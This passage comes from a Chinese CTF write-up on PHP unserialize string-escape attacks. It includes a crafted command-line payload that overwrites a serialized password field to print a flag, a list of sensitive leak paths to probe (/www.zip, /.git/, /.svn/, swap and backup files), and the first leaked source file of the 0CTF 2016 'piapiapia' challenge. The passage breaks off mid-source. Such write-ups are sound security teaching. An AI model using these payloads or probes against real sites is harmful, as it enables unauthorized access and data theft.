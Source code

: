 我们发现多了```PHP Notice:  unserialize(): Unexpected end of serialized data in /home/php/1.php on line 13```，这是为什么呢？我们看替换后的序列化前后的字符串，```su29029mmm";}```的长度是13位，而被替换后的字符串```su29029aaaaaa```也是13位，后面的```";}```将字符串闭合了，导致后面的内容失效，反序列化提前结束，而前面的```a:2```却表明数组长度为2，所以提示“非预期的序列化数据结尾”。

那么这个时候我们就可以想一些“歪招”了，我们构造如下payload：

```php
php 1.php "su29029mmmmmmmmmmmmmmmmmmmm\";i:1;s:6:\"000000\";}"
```

我们惊喜的发现成功输出了flag：

```
string(81) "a:2:{i:0;s:47:"su29029mmmmmmmmmmmmmmmmmmmm";i:1;s:6:"000000";}";i:1;s:5:"12345";}"
string(101) "a:2:{i:0;s:47:"su29029aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";i:1;s:6:"000000";}";i:1;s:5:"12345";}"
array(2) {
  [0]=>
  string(47) "su29029aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
  [1]=>
  string(6) "000000"
}
flag{123456}
```

根据上一个输入，我们发现原理相同，通过```";}```闭合序列化字符串，并且巧妙利用替换操作使得替换后的```"```前的字符串长度刚好等于替换前的全部字符串长度，从而成功的让```password```变成了```000000```。

## 0x02 [0CTF 2016]piapiapia 解题思路

首先拿道题是个登录界面，随意输入一下发现无果，f12发现也没有提示，故尝试一些敏感文件。后来发现存在源码泄露```www.zip```。

> 这里简单总结一些敏感目录，拿到题发现没有提示的时候可以尝试访问一下，说不定有意外收获。
>
> /www.zip /html.zip /.git/ /.svn/ /.index.php.swp /index.php.bak /robots.txt /index.phps......
>
> 当然还有一些不常见的，一般都会给提示[只是一般...这个不好说]

拿到www.zip发现了5个文件，逐一查看：

​	index.php

```php+HTML
<?php
	require_once('class.php');
	if($_SESSION['username']) {
		header('Location: profile.php');
		exit;
	}
	if($_POST['username'] && $_POST['password']) {
		$username = $_POST['username'];
		$password = $_POST['password'];

		if(strlen($username) < 3 or strlen($username) > 16) 
			die('Invalid user name');

		if(strlen($password) < 3 or strlen($password) > 16) 
			die('Invalid password');

		if($user->login($username, $password)) {
			$_SESSION['username'] = $username;
			header('Location: profile.php');
			exit;	
		}
		else {
			die('Invalid user name or password');
		}
	}
```